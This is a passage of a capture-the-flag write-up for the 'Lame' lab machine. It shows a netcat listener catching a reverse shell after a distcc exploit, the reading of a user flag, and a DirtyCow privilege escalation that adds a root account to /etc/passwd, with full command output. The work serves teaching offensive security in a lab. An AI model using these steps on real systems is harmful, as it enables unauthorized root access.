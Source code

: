 ```shell
[*] Exploit completed, but no session was created.
msf6 exploit(unix/misc/distcc_exec) > 
```
In my listener, I receive the connection from the remote machine. Finally I read the file user.txt.

```shell
# sudo rlwrap nc -lnvp 1338                    
listening on [any] 1338 ...
connect to [10.10.14.10] from (UNKNOWN) [10.10.10.3] 37374
bash: no job control in this shell
daemon@lame:/tmp$ whoami
daemon
daemon@lame:/home$ cd makis
daemon@lame:/home/makis$ ls
user.txt
daemon@lame:/home/makis$ cat *
69454a937d94f5f0225ea00acd2e84c5
```
# Privilege Escalation
For Privilege escalation, we run linpeas.shon the machine and it detects that this machine is vulnerable toDirtyCow(CVE-2016-5195)

```shell
[3] dirty_cow
      CVE-2016-5195
      Source: http://www.exploit-db.com/exploits/40616
```
I will then copy the exploit to the machine, then compile it with: gcc dirtycow.c -o dirty -pthreadand then execute it

```shell
I have no name!@lame:/tmp$ ./dirty root
/etc/passwd successfully backed up to /tmp/passwd.bak
Please enter the new password: root
Complete line:
firefart:fiw.I6FqpfXW.:0:0:pwned:/root:/bin/bash

mmap: b7f4b000
ptrace 0
Done! Check /etc/passwd to see if the new user was created.
You can log in with the username 'firefart' and the password 'root'.


DON'T FORGET TO RESTORE! $ mv /tmp/passwd.bak /etc/passwd
/etc/passwd successfully backed up to /tmp/passwd.bak
Please enter the new password: root
Complete line:
firefart:fiw.I6FqpfXW.:0:0:pwned:/root:/bin/bash

mmap: b7f4b000
madvise 0

Done! Check /etc/passwd to see if the new user was created.
You can log in with the username 'firefart' and the password 'root'.

DON'T FORGET TO RESTORE! $ mv /tmp/passwd.bak /etc/passwd
```
The exploit worked well and it created a user firefartwith all the privileges rootand also with my password root. So I just have to log in sshwith this user and password
